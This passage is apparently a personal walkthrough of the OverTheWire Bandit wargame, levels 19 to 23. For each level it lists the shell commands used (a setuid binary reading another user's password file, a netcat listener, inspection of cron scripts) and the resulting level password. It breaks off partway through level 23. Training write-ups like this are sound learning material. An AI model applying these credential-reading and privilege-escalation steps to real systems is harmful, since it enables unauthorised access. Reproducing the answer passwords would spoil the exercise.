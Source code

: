 **mdp : awhqfNnAbc1naukrpqDYcF95h7HoMTrC**

## level 19 --> level 20 :

`cmd1 : ls`

`cmd2 : file bandit20-do`

`cmd3 : ./bandit20-do cat /etc/bandit_pass/bandit20`

**mdp : VxCazJaVykI6W36BkBU0mJTCM8rR95XT**

## level 20 --> level 21 :

`cmd1 : echo -n 'VxCazJaVykI6W36BkBU0mJTCM8rR95XT' | nc -l -p 1234 &`

`cmd2 : ./suconnect 1234`

**mdp : NvEJF7oVjkddltPSrdKEFOllh9V1IBcq**

## level 21 --> level 22 :

`cmd1 : ls -la /etc/cron.d`

`cmd2 : cat /etc/cron.d/cronjob_bandit22`

`cmd3 : cat /usr/bin/cronjob_bandit22.sh`

`cmd4 : @reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null`

`cmd5 : cat /usr/bin/cronjob_bandit22.sh`

`cmd6 : chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv`

`cmd7 : cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv`

**mdp : WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff**

## level 22 --> level 23 :

`cmd1 : ls -la /etc/cron.d`

`cmd2 : cat /etc/cron.d/cronjob_bandit23`

`cmd3 : cat /usr/bin/cronjob_bandit23.sh`

`cmd4 : echo I am user bandit23 | md5sum | cut -d ' ' -f 1`

`cmd5 : echo I am user bandit23 | md5sum | cut -d ' ' -f 1`

`cmd6 : cat /tmp/8ca319486bfbbc3663ea0fbe81326349`

**mdp : QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G**

## level 23 --> level 24 :

`cmd1 : cd /etc/cron.d`

`cmd2 : ls -la`
